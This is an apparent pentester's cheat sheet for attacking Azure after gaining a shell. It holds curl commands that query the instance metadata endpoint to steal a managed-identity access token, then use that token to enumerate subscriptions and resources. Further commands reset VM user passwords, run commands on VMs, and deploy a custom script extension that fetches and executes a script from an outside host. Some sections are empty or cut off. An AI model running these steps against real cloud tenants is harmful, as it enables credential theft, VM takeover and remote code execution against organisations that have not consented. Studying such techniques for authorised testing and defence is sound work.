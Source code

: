 #Exploitation Flow 

### 1. Get shell 

### 2. ```env```

### 3. Metadata 

3.1 Get metadata of the azure vm
```
curl -H Metadata:true "http://169.254.169.254/metadata/instance?api-version=2021-02-01"
```
3.2 Get auth token of managed identity
```
curl -H Metadata:true -s 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F'
```

### 4. Enum
4.1 Get list of subscriptions
```
curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions?api-version=2020-01-01
```

4.2 List of resource groups and resources
```
curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions/${SUB_ID}/resourcegroups?api-version=2019-10-01
curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions/${SUB_ID}/resources?api-version=2019-10-01 
```

4.3

### Misc useful commands
Get deployment history
```
az deployment group list --resource-group rgname
```

VM password reset 
```
az vm user update -u username -p password -n <VM_Name> -g <Resource_Group>
```

VM run command
```
Invoke-AzVMRunCommand -CommandId 'RunPowerShellScript' -ScriptPath .\whoami.ps1
```

VM command for 
```
Set-AzVMCustomScriptExtension -ResourceGroupName TEST -VMName PentestVM -Location westcentralus -FileUri 'http://book.azurepentesting.com/whoami.ps1' -Run 'whoami.ps1' -Name CustomScriptExtension
```
